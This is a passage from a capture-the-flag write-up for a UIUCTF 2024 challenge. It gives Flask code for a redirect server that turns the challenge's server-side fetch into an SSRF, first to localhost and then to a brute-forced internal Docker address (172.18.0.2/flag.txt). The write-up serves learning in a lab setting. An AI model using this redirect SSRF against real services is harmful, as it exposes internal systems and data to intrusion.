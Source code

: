 Wait... How can we reach the challenge's internal services?

Well, **redirect**! In our Flask app, we can redirect the server-side's `fetch` to our intended resource. Let's update our Flask app source code!

```python
#!/usr/bin/env python3
from flask import Flask, request, Response, redirect

app = Flask(__name__)

@app.route('/login')
def exploit():
    # CORS preflight check
    if request.method == 'HEAD':
        response = Response()
        response.headers['Content-Type'] = 'text/x-component'
        return response
    # after CORS preflight check
    elif request.method == 'GET':
        ssrfUrl = 'http://localhost:3000/'
        return redirect(ssrfUrl)

if __name__ == '__main__':
    app.run(port=80, debug=True)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/UIUCTF-2024/images/Pasted%20image%2020240701150912.png)

Nice! The SSRF worked!

To get the flag, we can redirect the server-side's `fetch` to the internal back-end.

Uhh... How can we know the back-end IP address??

Since the challenge should be deployed via Docker, we can try to guess/brute force the back-end internal IP address.

> Note: We can also use `backend` as the host: (I didn't know this trick before, learned a new thing!)
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/UIUCTF-2024/images/Pasted%20image%2020240701151421.png)

By default, Docker uses the **default `172.17.0.0/16` subnet** for container networking.

**After some brute forcing, I found out that the internal IP address for the back-end service is `172.18.0.2`:**
```python
    [...]
    elif request.method == 'GET':
        ssrfUrl = 'http://172.18.0.2/flag.txt'
        return redirect(ssrfUrl)
    [...]
```

